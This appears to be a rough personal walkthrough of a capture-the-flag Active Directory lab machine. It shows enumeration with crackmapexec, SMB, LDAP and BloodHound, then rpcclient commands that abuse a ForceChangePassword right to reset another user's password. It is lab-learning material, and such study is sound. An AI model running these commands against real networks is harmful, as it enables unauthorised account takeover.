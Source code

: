 
Will do little more enuemration
```
crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
```
![[Pasted image 20231117131500.png]]

Will do a little tweak in the above command as we have the winrm port open
```
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```
![[Pasted image 20231117131602.png]]
It seems that we don't have permission to access it


Will go back to SMB enumeration 
```
smbclient \\\\10.10.10.192\\\SYSVOL -U 'support' --password="#00^BlackKnight"
```
We have access to SYSVOL and got a file
```
prompt off
recurse on
ls
mget *
```

```
UEFS1(0&U
Administrator121200130112036Z0P10Uficate0 

B04d9f970a-1ce2-4b39-87a6-adf40f02e90dMicrosoft Enhanced Cryptographic Provider v1.0
```

There's nothing much we can do using this user and passwd
![[Pasted image 20231117134514.png]]
We have to think out of the box now 

Let's try with ldap 
```
dapdomaindump ldaps://10.10.10.192 -u 'blackfield\support' -p '#00^BlackKnight'
```

Let's try Bloodhound and got results 
```
bloodhound-python -d blackfield.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c all
```
![[Pasted image 20231117141330.png]]
![[Pasted image 20231117141344.png]]

Let's try with to run bloodhound now
and see what we can get
![[Pasted image 20231117142403.png]]
![[Pasted image 20231117142521.png]]

```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt

python3 PlumHound.py --easy -p password
python3 PlumHound.py -x tasks/default.tasks -p password
```

Will open the index.html file
![[Pasted image 20231117143244.png]]

Finally able to open the index.html file in Firefox
```
firefox index.html
```
![[Pasted image 20231118113021.png]]

Let's see if we get something from this or not
![[Pasted image 20231118113224.png]]

We are getting all the data regarding who is who here 
![[Pasted image 20231118113405.png]]
This might be the password not sure at this point of time but will keep this in our mind 
```
LYDERICLEFEBVRE@BLACKFIELD.LOCAL 	Lydéric aas. Lefebvre 	True 	False 	@lydericlefebvre - VM Creator 
```

After enumerating like 1 hours i got a relationship b/w support and audit2020 with forcechangepassword
![[Pasted image 20231118122124.png]]

![[Pasted image 20231118122257.png]]

We might have to use RPC to change the password of audit2020 let's google and see what could we find.
```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```


![[Pasted image 20231118130530.png]]
```
rpcclient -U "support" 10.10.10.192
#00^BlackKnight

user:[audit2020] rid:[0x44f]

rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 audit2020 23 NewPassword
```


1st let's see how the command works
```
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

setuserinfo2 audit2020 23 '#00^BlackKnight'
```

We get this error now 
![[Pasted image 20231118131028.png]]

let's try with single quotes let's have a look to the password policy that we had access earlier through the share.

![[Pasted image 20231118131725.png]]
I think we are able to change the password let's try to login using this password

![[Pasted image 20231118132009.png]]
It is clear that we can login  so let's try with smb and evil-win

```
audit2020
#00^BlackKnight
```
![[Pasted image 20231118132242.png]]

![[Pasted image 20231118132509.png]]

Can't get a shell let's enumerate the smb share and see what we can get.
![[Pasted image 20231118132546.png]]

We got a lot of data in the smb share so let's enumerate everything.

![[Pasted image 20231118140455.png]]

![[Pasted image 20231118140648.png]]

